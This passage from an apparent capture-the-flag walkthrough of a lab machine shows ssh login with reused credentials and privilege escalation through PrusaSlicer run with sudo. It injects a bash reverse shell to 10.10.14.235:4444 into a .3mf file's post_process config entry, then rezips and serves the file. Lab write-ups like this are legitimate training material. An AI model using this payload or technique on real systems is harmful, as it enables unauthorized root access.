 We can reuse these credentials to get ssh access on the target as adam:
```shell
❯ ssh adam@10.129.11.198
adam@10.129.11.198's password:
adam@trickster:~$ whoami
adam
```

## Privilege Escalation

### PrusaSlicer Exploitation

The adam user had sudo privileges to run PrusaSlicer:
```bash
(ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
```

We find a public exploit for [PrusaSlicer](https://www.exploit-db.com/exploits/51983).

This 3d printing binary allows for shell commands to run as part of it's configuration, specifically the `post_process` config entry in the `Metadata/Slic3r_PE.config` file.

To successfully exploit this, we'll first download the `/opt/PrusaSlicer/TRICKSTER.3mf` from the victim machine and copy it:
```shell
❯ cp TRICKSTER.3mf pwn.3mf
```

Next, we'll unzip the pwn.3mf since this is infact just a zipped file:
```shell
❯ unzip pwn.3mf
Archive:  pwn.3mf
  inflating: 3D/3dmodel.model
  inflating: Metadata/Slic3r_PE.config
  inflating: Metadata/Slic3r_PE_model.config
  inflating: Metadata/thumbnail.png
  inflating: [Content_Types].xml
  inflating: _rels/.rels
```

Next, we need to add our command to the `post_process` config line in the `Metadata/Slic3r_PE.config` as the exploit description explains, so the line will look like:
```shell
; post_process = "bash -c 'bash -i >& /dev/tcp/10.10.14.235/4444 0>&1' &"
```

It's important to background the reverse shell here, otherwise it'll die immediately when the pursaslicer command has finished. Next, we zip the contents back up into the 3mf file:
```shell
❯ zip -r pwn.3mf 3D Metadata \[Content_Types\].xml _rels
```

Serve the file for the target to download:
```shell
❯ ws
Serving HTTP on :: port 8181 (http://[::]:8181/) ...
```
